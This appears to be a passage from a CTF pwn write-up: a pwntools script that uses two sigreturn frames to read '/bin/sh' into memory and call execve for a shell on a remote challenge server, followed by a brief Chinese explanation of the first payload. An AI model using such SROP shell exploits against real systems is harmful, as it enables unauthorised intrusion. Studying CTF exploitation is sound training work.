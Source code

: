 ### exp

```plain
from pwn import *
elf = ELF("./pwn")
io = remote('101.132.112.252',30573)
#io = process('./pwn')
context(log_level = 'debug', os = 'linux', arch = 'amd64')
def dbg():
    gdb.attach(io)
    pause()

syscall_ret=0x401127
ret=0x4000FE
data=0x404028
pop_rax=0x401139
#gdb.attach(io,'b 0x0000000004000FE')

sigframe = SigreturnFrame()
sigframe.rax = 0
sigframe.rdi = 0
sigframe.rdx = 0x400
sigframe.rsi = data
sigframe.rsp = data+8
sigframe.rip = syscall_ret

payload=b'a'*0x10+p64(pop_rax)+p64(syscall_ret)+bytes(sigframe)#

io.send(payload)
#dbg()
sigframe1 = SigreturnFrame()
sigframe1.rax = 59
sigframe1.rdi = data
sigframe1.rsi = 0
sigframe1.rdx = 0
sigframe1.rsp = 0
sigframe1.rip = syscall_ret

payload1=b'/bin/sh\x00'+p64(pop_rax)+p64(syscall_ret)+bytes(sigframe1)

io.sendline(payload1)

io.interactive()
```

### exp分析

```plain
payload=b'a'*0x10+p64(pop_rax)+p64(syscall_ret)+bytes(sigframe)
```

因为程序中没有sh字符串，那么我们就需要构造一个read来写一段/bin/sh字符串到程序中，并在后面继续执行下一段srop链
